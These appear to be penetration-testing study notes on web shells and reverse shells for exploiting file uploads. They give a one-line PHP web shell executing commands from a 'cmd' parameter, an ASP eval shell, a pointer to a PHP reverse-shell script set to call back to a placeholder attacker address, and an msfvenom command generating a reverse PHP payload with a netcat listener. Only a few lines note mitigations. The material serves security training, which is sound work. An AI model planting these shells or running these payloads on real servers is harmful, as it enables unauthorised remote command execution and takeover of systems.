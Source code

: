 ## Web Shells
We want a good webshell for directory traversal or file transfer
- PHP: phpbash (https://github.com/Arrexel/phpbash)
- SecLists: /opt/useful/seclists/Web-Shells
- Simple manual web shell
```php
<?php system($_REQUEST['cmd']); ?>
```
- We can execute system commands with ?cmd= GET parameter
- Use source view [CTRL+U]
```asp (.NET)
<% eval request('cmd') %>
```

Security mitigations:
- WAF
- Prevent use of system()

## Reverse Shell
- PHP: https://github.com/pentestmonkey/php-reverse-shell
```php
$ip = 'OUR_IP';
$port = OUR_PORT;
```
```shell-session
nc -lvnp OUR_PORT
```

**Custom
```shell-session
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
nc -lvnp OUR_PORT
```
- 'p' flag is the payload
- 'f' flag is the output language

Reasons we may need to use web shell instead of reverse:
- Firewall does not allow outgoing connections
- Server disables necessary functions to initiate a connection back to us
